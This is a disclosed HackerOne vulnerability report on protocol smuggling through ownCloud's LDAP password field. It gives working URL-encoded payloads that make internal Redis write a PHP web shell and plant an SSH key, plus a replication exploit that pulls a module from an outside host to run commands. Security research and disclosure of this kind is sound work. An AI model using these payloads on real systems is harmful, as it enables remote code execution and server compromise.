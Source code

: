 # Protocol Smuggling over LDAP password field

## Report Details
- **Report ID**: 1054282
- **URL**: https://hackerone.com/reports/1054282
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-12-08T17:59:01.861Z
- **Disclosed**: 2021-09-03T13:20:13.732Z

## Reporter
- **Username**: pabl00nicarres
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: owncloud

## Vulnerability Information
Privileges required: Admin

Hi,
"user_ldap" plugin can be leveraged to interact with internal services over various protocols.
LDAP password field can be exploited with newline chars (\r\n) in order to communicate with protocols like SMTP, Redis and, generally speaking, with all services those speak plain text protocols (e.g. postgres, memcached, etc.). 
I concentrated only on SMTP and Redis services.  
The following code is responsible for setting password field, without checking the user input for new lines chars.
{F1109105}
For all other ldap settings, the below check is performed.
{F1109090}
{F1109091}
An attacker, able to steal admin credentials/session cookies could leverage the password field to send arbitrary e-mails and even achieve remote code execution.
Below some examples and payloads used.
When setting LDAP password is mandatory to intercept the request with a web proxy to get rid of URL encoding performed by Owncloud.
For SMTPs services the process is trivial and exploitable with or without authentication (when credentials are known). Is sufficient to give arbitratry SMTP commands separated by EOL CHARS "%0D%0A".
{F1109106}

For redis instances, the issue can be exploited in many different ways, even with authentication set (when credentials are known). 
I included a POC for 3 principal cases:
- Writing a web shell into Owncloud webroot (according to redis user’s permissions).
 Below payload and evidences:
`_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2434%0D%0A/home/bitnami/apps/owncloud/htdocs%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A`
{F1109110}
{F1109143}

- Master / Slave replication exploit (this generally works on all redis versions from 4.x to 5.x) and permits arbitrary command execution (In the example I just wrote a file in tmp but it also can be a reverse shell).
`%0D%0ASLAVEOF%20192.168.1.237%206666%0D%0Aconfig%20set%20dbfilename%20exp.so%0D%0A0D%0Aquit%0D%0A`
`%0D%0A%0D%0AMODULE%20LOAD%20./exp.so%0D%0Asystem.exec%20touch%20/tmp/redis_master_slave%0D%0A`
{F1109121}

- Writing a ssh key in Redis home and then connecting to server, as explained by Antirez here: http://antirez.com/news/96. 
`_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%24667%0D%0A%0A%0Assh-rsa%0A%0A----BEGIN%20RSA%20PRIVATE%20KEY%0A%0AMIIBuwIBAAKBgQCM9adaXNfWm%2BtxyY7z3R0lV9TULSd5Z/6sHIw1sDqXkX2T9LLDgF75IbaTKeToMV4uq/eqBhMOcpW3XZytTJ6LKxmzMhGq9fIK%2BNmhnbTvcZ6CJSuJefcnQrzMdlF/gsjzrESc5H/RB64Gtty4b3QchWl77BM2zQKzboxHvLlMKwIVAJ/1fDsXaW5766Lmrv551XI/uIY9AoGAeFXLCK8Upuu3tsKffDtjjsomVxCCEghPL%2BLmHjJc6MVl4ZW4t%2BggzFJ5mPlQiBDh5ykWj5dVlsMtqR7LoMUsQGSjWicYeMKer3zn0ijoFUHuNXX3QJLJd3lWJrlKGs1ABizXsl4SH/%2BGwWYVWN%2BM3lYj9lFyONu66Ei857PX%2BwgCgYBl9eW36ZaBDGHBDH6wL8BwwPS1IhNPgRvecgP648/8vEs5C9buSxsjX40Yw/It%2BhB/nDjyjGYleWB8AaTguKhi9Te9tKdxwod5qg/T/uXH9IXoF9QnkLNUvnWe4KlcUW/0m2JpY5w0W5utmsC2gwLzXN7Zxnon3%2BRblzg9MIj6EwIVAIq6g7pVO/xwR5/ZNRZfRk5TfIjS%0A%0A-----END%20DSA%20PRIVATE%20KEY-----%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2420%0D%0A/var/lib/redis/.ssh/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%2415%0D%0Aauthorized_keys%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A`
{F1109133}
I set the severity to low because of preconditions required: Administrator access and presence of these services, listening on localhost or  internal network.

## Impact

As always for SSRF related issues, impact may vary depending on exposed services.

## Attachments
- setmultiline_function.png
- setmultiline.png
- setrawvalue.png
- smtp_poc.png
- redis_master_slave.png
- command_output.png
- redis_write_ssh.png
- command_output.png
